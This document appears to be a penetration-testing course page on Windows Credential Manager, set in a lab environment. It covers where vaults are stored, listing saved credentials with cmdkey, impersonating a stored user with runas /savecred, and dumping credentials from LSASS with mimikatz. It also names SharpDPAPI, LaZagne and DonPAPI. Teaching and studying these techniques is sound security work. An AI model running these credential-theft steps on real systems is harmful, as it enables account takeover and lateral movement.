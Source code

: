 ```yaml
---
tags:
  - os/windows
---
```

## Windows Vault and Credential Manager

[Credential Manager](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication#windows-vault-and-credential-manager) is a feature built into Windows since `Server 2008 R2` and `Windows 7`. Thorough documentation on how it works is not publicly available, but essentially, it allows users and applications to securely store credentials relevant to other systems and websites. Credentials are stored in special encrypted folders on the computer under the user and system profiles ([MITRE ATT&CK](https://attack.mitre.org/techniques/T1555/004/)):

- `%UserProfile%\AppData\Local\Microsoft\Vault\`
- `%UserProfile%\AppData\Local\Microsoft\Credentials\`
- `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
- `%ProgramData%\Microsoft\Vault\`
- `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`

Each vault folder contains a `Policy.vpol` file with AES keys (AES-128 or AES-256) that is protected by DPAPI. These AES keys are used to encrypt the credentials. Newer versions of Windows make use of `Credential Guard` to further protect the DPAPI master keys by storing them in secured memory enclaves ([Virtualization-based Security](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs)).

Microsoft often refers to the protected stores as `Credential Lockers` (formerly `Windows Vaults`). Credential Manager is the user-facing feature/API, while the actual encrypted stores are the vault/locker folders. The following table lists the two types of credentials Windows stores:

|Name|Description|
|---|---|
|Web Credentials|Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge.|
|Windows Credentials|Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories.|
It is possible to export Windows Vaults to `.crd` files either via Control Panel or with the following command. Backups created this way are encrypted with a password supplied by the user, and can be imported on other Windows systems

```cmd-session
C:\Users\sadams>rundll32 keymgr.dll,KRShowKeyMgr
```

## Enumerating credentials with cmdkey

We can use [cmdkey](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) to enumerate the credentials stored in the current user's profile:

```cmd-session
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Stored credentials are listed with the following format:

|Key|Value|
|---|---|
|Target|The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.|
|Type|The kind of credential. Common types are `Generic` for general credentials, and `Domain Password` for domain user logons.|
|User|The user account associated with the credential.|
|Persistence|Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with `Local machine persistence` survive reboots.|
The first credential in the command output above, `virtualapp/didlogical`, is a generic credential used by Microsoft account/Windows Live services. The random looking username is an internal account ID. This entry may be ignored.

The second credential, `Domain:interactive=SRV01\mcharles`, is a domain credential associated with the user SRV01\mcharles. `Interactive` means that the credential is used for interactive logon sessions. Whenever we come across this type of credential, we can use `runas` to impersonate the stored user like so:

```cmd-session
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

## Extracting credentials with Mimikatz

There are many different tools that can be used to decrypt stored credentials. One of the tools we can use is [mimikatz](https://github.com/gentilkiwi/mimikatz). Even within `mimikatz`, there are multiple ways to attack these credentials - we can either dump credentials from memory using the `sekurlsa` module, or we can manually decrypt credentials using the `dpapi` module. For this example, we will target the LSASS process with `sekurlsa`:

```cmd-session
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```

**Note:** Some other tools which may be used to enumerate and extract stored credentials included [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [LaZagne](https://github.com/AlessandroZ/LaZagne), and [DonPAPI](https://github.com/login-securite/DonPAPI).